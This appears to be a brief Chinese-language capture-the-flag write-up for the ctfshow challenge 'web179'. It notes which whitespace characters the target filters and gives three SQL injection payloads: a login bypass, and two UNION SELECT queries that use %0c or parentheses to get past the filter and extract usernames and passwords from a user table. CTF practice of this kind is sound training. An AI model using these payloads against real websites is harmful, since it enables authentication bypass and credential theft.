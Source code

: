 # web179



%0a.空格,%09,/**/都被过滤
考虑使用()代替

外能密码:
```
1'or(1=1)%23
```

%0c:
```
'union%0cselect%0cdatabase(),username,password%0cfrom%0cctfshow_user%23
```
![](vx_images/199209794134562.png)
():
```
'union(select(select(group_concat(password))from(ctfshow_user)),1,2)%23
```